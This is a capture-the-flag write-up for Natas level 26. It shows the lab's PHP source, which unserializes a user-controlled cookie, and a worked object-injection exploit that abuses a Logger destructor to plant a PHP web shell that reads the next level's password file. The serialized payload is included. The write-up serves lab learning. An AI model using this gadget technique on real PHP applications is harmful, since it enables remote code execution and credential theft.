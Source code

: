 # Natas
> Level : Natas Level 26<br/>
> Solved : 3rd August 2021<br/>
> Remarks : PHP Deserialization<br/>
<br/>

## Quest
We are presented with a simple Drawing Application

![](./images/Level26.png)

<br/>
Backend Code 
```php
<?php

class Logger{
    private $logFile;
    private $initMsg;
    private $exitMsg;
  
    function __construct($file){
        // initialise variables
        $this->initMsg="#--session started--#\n";
        $this->exitMsg="#--session end--#\n";
        $this->logFile = "/tmp/natas26_" . $file . ".log";
  
        // write initial message
        $fd=fopen($this->logFile,"a+");
        fwrite($fd,$initMsg);
        fclose($fd);
    }                       
  
    function log($msg){
        $fd=fopen($this->logFile,"a+");
        fwrite($fd,$msg."\n");
        fclose($fd);
    }                       
  
    function __destruct(){
        // write exit message
        $fd=fopen($this->logFile,"a+");
        fwrite($fd,$this->exitMsg);
        fclose($fd);
    }                       
}
 
function showImage($filename){
    if(file_exists($filename))
        echo "<img src=\"$filename\">";
}

function drawImage($filename){
    $img=imagecreatetruecolor(400,300);
    drawFromUserdata($img);
    imagepng($img,$filename);     
    imagedestroy($img);
}

function drawFromUserdata($img){
    if( array_key_exists("x1", $_GET) && array_key_exists("y1", $_GET) &&
        array_key_exists("x2", $_GET) && array_key_exists("y2", $_GET)){
        $color=imagecolorallocate($img,0xff,0x12,0x1c);
        imageline($img,$_GET["x1"], $_GET["y1"], 
                        $_GET["x2"], $_GET["y2"], $color);
    }
    
    if (array_key_exists("drawing", $_COOKIE)){
        $drawing=unserialize(base64_decode($_COOKIE["drawing"]));
        if($drawing)
            foreach($drawing as $object)
                if( array_key_exists("x1", $object) && 
                    array_key_exists("y1", $object) &&
                    array_key_exists("x2", $object) && 
                    array_key_exists("y2", $object)){
                
                    $color=imagecolorallocate($img,0xff,0x12,0x1c);
                    imageline($img,$object["x1"],$object["y1"],
                            $object["x2"] ,$object["y2"] ,$color);
        
                }
    }    
}
    
function storeData(){
    $new_object=array();

    if(array_key_exists("x1", $_GET) && array_key_exists("y1", $_GET) &&
        array_key_exists("x2", $_GET) && array_key_exists("y2", $_GET)){
        $new_object["x1"]=$_GET["x1"];
        $new_object["y1"]=$_GET["y1"];
        $new_object["x2"]=$_GET["x2"];
        $new_object["y2"]=$_GET["y2"];
    }
    
    if (array_key_exists("drawing", $_COOKIE)){
        $drawing=unserialize(base64_decode($_COOKIE["drawing"]));
    }
    else{
        // create new array
        $drawing=array();
    }
    
    $drawing[]=$new_object;
    setcookie("drawing",base64_encode(serialize($drawing)));
}
?>

<h1>natas26</h1>
<div id="content">

Draw a line:<br>
<form name="input" method="get">
X1<input type="text" name="x1" size=2>
Y1<input type="text" name="y1" size=2>
X2<input type="text" name="x2" size=2>
Y2<input type="text" name="y2" size=2>
<input type="submit" value="DRAW!">
</form> 

<?php
    session_start();
    if (array_key_exists("drawing", $_COOKIE) ||
        (   array_key_exists("x1", $_GET) && array_key_exists("y1", $_GET) &&
            array_key_exists("x2", $_GET) && array_key_exists("y2", $_GET))){  
        $imgfile="img/natas26_" . session_id() .".png"; 
        drawImage($imgfile); 
        showImage($imgfile);
        storeData();
    }
?>
```
<br/>

## Solution

Lot of code to go through and most of it is concerned with drawing the image according to provided coordinates.

If we leave out function declarations, the PHP that gets executed is at the bottom.

The application draws lines either by coordinates provided or by deserializing the `drawing` cookie.

One things that strikes out in the code is `unserialize` and `serialize` functions. This calls for checking if Serialization Bugs are present.

What is Serialization?<br/>
>Serialization is when an object in a programming language is converted into a format that can be stored or transferred. Whereas deserialization is the opposite,  it’s when the serialized object is read from a file or the network and converted back into an object.


Lets deserialize the cookie:
```php
<?php

$drawing = unserialize(base64_decode("YToyOntpOjA7YTo0OntzOjI6IngxIjtzOjM6IjEwMCI7czoyOiJ5MSI7czoxOiIwIjtzOjI6IngyIjtzOjM6IjMwMCI7czoyOiJ5MiI7czozOiIzMDAiO31pOjE7YTo0OntzOjI6IngxIjtzOjM6IjEwMCI7czoyOiJ5MSI7czoxOiIwIjtzOjI6IngyIjtzOjM6IjMwMCI7czoyOiJ5MiI7czozOiIzMDAiO319"));
print_r($drawing);
```

Output
```
$ php drawing.php
Array
(
    [0] => Array
        (
            [x1] => 100
            [y1] => 0
            [x2] => 300
            [y2] => 300
        )

    [1] => Array
        (
            [x1] => 100
            [y1] => 0
            [x2] => 300
            [y2] => 300
        )

)
```

After deserializing the `drawing` cookie, we get an array of coordinates used to create the lines.

In case of serialization bugs, we take advantage of the constructor and destructor function that runs when an object is created or destroyed.

Lets look at the `Logger` class, both constructor and destructor .i.e. `__construct` and `__destruct` function write to a file . They write the contents of variable `initMsg` and `exitMsg` to the file. Lets create an object 

```php
<?php

class Logger {
    private $logFile;
    private $initMsg;
    private $exitMsg;
    
    function __construct(){
        $this->initMsg="Serialization Buggs!!!\n";
        $this->exitMsg="<?php echo file_get_contents('/etc/natas_webpass/natas27'); ?>\n";
        $this->logFile = "/var/www/natas/natas26/img/log.txt";
    }
}

$o = new Logger();
print base64_encode(serialize($o))."\n";
```

Output
```
Tzo2OiJMb2dnZXIiOjM6e3M6MTU6IgBMb2dnZXIAbG9nRmlsZSI7czozNDoiL3Zhci93d3cvbmF0YXMvbmF0YXMyNi9pbWcvbG9nLnR4dCI7czoxNToiAExvZ2dlcgBpbml0TXNnIjtzOjIzOiJTZXJpYWxpemF0aW9uIEJ1Z2dzISEhCiI7czoxNToiAExvZ2dlcgBleGl0TXNnIjtzOjYzOiI8P3BocCBlY2hvIGZpbGVfZ2V0X2NvbnRlbnRzKCcvZXRjL25hdGFzX3dlYnBhc3MvbmF0YXMyNycpOyA/PgoiO30=
```
<br/>
Observations:<br/>
  - We get the contents of the file storing password for next Level <br/>
  - we can write to `img` directory, so we store log file there. <br/>
 
We send a Logger object into a function that’s expecting arrays with coordinates, so this will give an error. But our exploit works because the objected is loaded into the `$drawing` variable, so when its life ends, the destructor will be called in turn writing our exploit to file and that's all we need.

Below we send our serialized object as cookie. (appended `%3D` for `=` )

![](./images/Level26_solution.png)

<br/>
Now, lets access the file that we wrote

![](./images/Level26.1_solution.png)

<br/>
We can see that our file gets written with our code but doesn't execute, let change `.txt` to `.php` in our serialized object and recreate it and that will execute to present the password for next level.

![](./images/Level26.2_solution.png)

<br/>
<span id=green>**Takeaway**</span><br/>

  - Whenever we see `unserialize` and `serialize` functions in code, ALWAYS test it.<br/>
  - Test chunks of code locally, gr8 for understanding and exploiting.<br/>

<br/>
That's Level 26 

<br/>

[<< Back](https://grey-fish.github.io/Natas/index.html)
